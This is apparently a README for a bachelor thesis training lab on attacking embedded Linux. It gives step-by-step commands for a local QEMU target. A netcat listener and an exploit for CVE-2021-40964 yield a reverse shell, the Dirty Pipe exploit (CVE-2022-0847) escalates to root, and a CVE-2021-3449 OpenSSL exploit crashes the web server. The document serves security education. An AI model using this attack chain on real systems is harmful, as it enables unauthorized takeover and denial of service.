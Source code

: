 # Analysis of attack vectors for embedded Linux
Git Repository for my Bachelor Thesis "Analysis of attack vectors for embedded Linux"

The goal of this bachelor thesis was to create a training course that would give developers a brief insight into how quickly security vulnerabilities can sometimes be exploited. Unpatched systems can often be very easily taken over or crippled by exploits found on the Internet. To this end, the information gathered in this thesis is to be provided as training. The training is primarily intended for embedded system developers but can be applied to the entire Linux environment. 

The schedule and necessary data for the training can be found in my personal git repository at: https://github.com/FeFi7/attacking_embedded_linux 

Likewise, all patches and layers are provided that the Poky distribution can be extended or changed independently. This includes the layers used as well as the changes to the Poky version used with the status of the checkout 0447aace57d46c4de4d120b430384e99fc3a5e0c used in this thesis.

## Preparation for the training
To be able to carry out the training, a few things have to be prepared. The first step is to ensure that a Linux machine is available as the basic system. This can be any Linux distribution. The commands will be executed using an Ubuntu distribution. First all dependencies have to be installed. This includes qemu, qemu-system. These can be installed with the following commands:

>$ sudo apt-get install qemu 
>
>$ sudo apt-get install qemu-system

Furthermore, the Go ("Golang") programming language must be installed. We achieve this with the help of:
>$ sudo apt install golang-go

Alternatively, wget can be used to download the appropriate package and then install it. 
(wget https://golang.org/dl/go1.17.linux-amd64.tar.gz)

Install curl and jq.

>$ sudo apt-get install curl
>
>$ sudo apt-get install jq

:warning:Because the root file system of the Poky distribution created in this thesis exceeds the 100MB one need to install the GIT extension lfs (Large File Storage).:warning: 

This can be installed as follows:
>$ sudo apt-get install git-lfs 

or alternatively via https://git-lfs.github.com/. To do this, the following steps must be performed:
>$ curl -s https://packagecloud.io/install/repositories /github/git-lfs/script.deb.sh | sudo bash 


The extension must also be used for the repository clone:
>$ git lfs clone https://github.com/FeFi7/attacking_embedded_linux.git 


## Training materials
For the training let's imagine the following scenario: An embedded Linux software developer wants to develop a NAS system. The Tiny File Manger version from chapter 4.3 is installed on it and the system is to be taken over. We got the admin login data for the system through social engineering, or we know that the default configuration has not been changed. In any case, this login data is available to us. The goal is to combine the attacks in such a way that we create a reverse remote shell on the target and use the dirtypipe attack to gain root privileges. In the second step, the web server can be taken down by a DoS attack. This should show how a system can be weakened or taken over. Individual security vulnerabilities may not be bad, but the attack chain used with the combination of security vulnerabilities can lead to a complete takeover of the system. 
Follow all requirements for installation. After the Git repository has been successfully cloned, one need to change to this directory:
>$ cd attacking_embedded_linux/poky

In this directory the startup script is located, which boots the poky distribution. This can be started with the following command:
>$ sudo ./start.sh

Now one must wait until the QEMU has completely booted the distribution and the login prompt appears. As soon as the boot process has been completed, it can be tested with the help of a web browser whether the necessary pages are accessible, for this the following pages must be called:
Lighttpd: https://127.0.0.1:8443
Tiny File Manager Application: https://127.0.0.1:8443/tinyfilemanager.php 
Note: The self-signed certificate must be confirmed the first time it is accessed. 

The login credentials for the necessary applications are:
poky Login: hansolo Password: felix
Tiny File Manager: Login: admin Password: admin@123

After ensuring that all requirements have been installed and the applications are working properly, the first attack can begin.
The first attack involves a combination of the CVE-2021-40964 to get a remote shell on the target system and the execution of an exploit for the CVE-2022-0847 to get root privileges on the system. For this, two shells should be opened on the host system. In the first shell we start netcat with the following command:  
>$ nc -nvlp 9001

In the second terminal we move to the exploit directory of the Tiny File Manager with the command:
>$ cd ../exploits/CVE-2021-40964-tinyfilemanager

This directory contains the exploit to log in to the Tiny File Manager application and upload the shell PHP script. This is executed as follows:
>$ ./exploit.sh https://127.0.0.1:8443/tinyfilemanager.php admin “admin@123”

In the other terminal window, the reverse shell now opens and we have access to the webroot directory of the lighttpd. This can be checked with the following command:
>$ ls -l

To execute the dirtypipe exploit and obtain root rights, the corresponding exploit must be uploaded via the web interface. To do this, the login process must be carried out via the web interface https://127.0.0.1:8443/tinyfilemanager.php with the login credentials 

Login: admin and Password: admin@123. 

Then one has to click on the upload button in the upper right corner and the upload mask will open. With a click in the white area a file explorer opens, where the exploit must be selected. This exploit has the following path: 
>attacking_embedded_linux/ exploits/ CVE-2022-0847-dirtypipe/exploit_bl4sty

Clicking on the Back button returns one to the overview of the files. It is recommended to check whether the exploit was successfully uploaded in the terminal by executing the remote shell. The following command must be executed for the exploit to be executable:
>$ chmod +x exploit_bl4sty

Before the exploit is executed, it should be checked under which user the shell is currently executed. To do this, the command "id" can be typed into the command line. The feedback appears:
>$ uid=33(www-data) gid=33(www-data) groups=33(www-data)

To gain root privileges, the exploit must be executed as follows:
>$ ./exploit_bl4sty /bin/su

Note: After executing the exploit, no new prompt appears only an empty new line.

It is checked whether the exploit was successful. To do this, the command "id" can be executed again in the command line. The feedback message appears:
>$ uid=0(root) gid=0(root) groups=33(www-data)

The system was successfully taken over.
The second attack requires launching the web browser and accessing the following URL: https://127.0.0.1:8443

A static HTML page with the content "Time to shoot the Empire" appears. In a terminal, one must change to the following directory where the exploit is located:
>$ cd attacking_embedded_linux/exploits/CVE-2021-3449-openssl

To execute the exploit, the following command must be run:
>$ go run . -host 127.0.0.1:8443

The feedback is provided:
>sending initial ClientHello
>connected
>sending malicious ClientHello
>malicious handshake failed, exploit might have worked: EOF

Furthermore, the message Error in libssl.so appears in the QEMU Terminal. Now it is necessary to switch back to the web browser and reload the page. The page is now no longer accessible and the lighttpd was taken down.
